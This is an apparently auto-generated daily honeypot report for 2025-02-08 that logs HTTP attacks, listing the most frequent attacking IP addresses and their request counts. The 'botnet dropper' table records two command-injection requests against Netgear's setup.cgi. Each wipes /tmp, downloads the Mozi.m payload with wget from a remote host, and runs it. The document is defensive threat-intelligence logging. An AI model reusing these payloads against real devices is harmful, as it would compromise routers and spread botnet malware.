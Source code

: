 ```yaml
---
title: "Report: 2025-02-08 "
date: 2025-02-08
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-08
interaction report on http service of various Hhoneypot around the world.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr    | request                                                                                                                                                                       |
|---:|:---------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 115.51.102.117 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://115.51.102.117:57880/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
|  1 | 59.184.247.7   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://59.184.247.7:34730/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0   |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   105 | 193.41.206.176  |
|   1 |                    72 | 45.148.10.242   |
|   2 |                    51 | 193.68.89.10    |
|   3 |                    36 | 185.196.220.253 |
|   4 |                    32 | 179.43.160.138  |
|   5 |                    26 | 80.82.77.202    |
|   6 |                    24 | 162.243.40.132  |
|   7 |                    22 | 46.19.138.234   |
|   8 |                    19 | 194.50.16.252   |
|   9 |                    18 | 179.43.191.146  |
|  10 |                    18 | 45.144.212.139  |
|  11 |                    16 | 93.174.93.12    |
|  12 |                    14 | 95.214.55.132   |
|  13 |                    13 | 195.140.213.30  |
|  14 |                    12 | 164.52.24.188   |
|  15 |                    12 | 206.189.6.85    |
|  16 |                    12 | 138.197.156.54  |
|  17 |                    12 | 46.101.84.171   |
|  18 |                    11 | 18.117.117.74   |
|  19 |                    10 | 78.153.140.149  |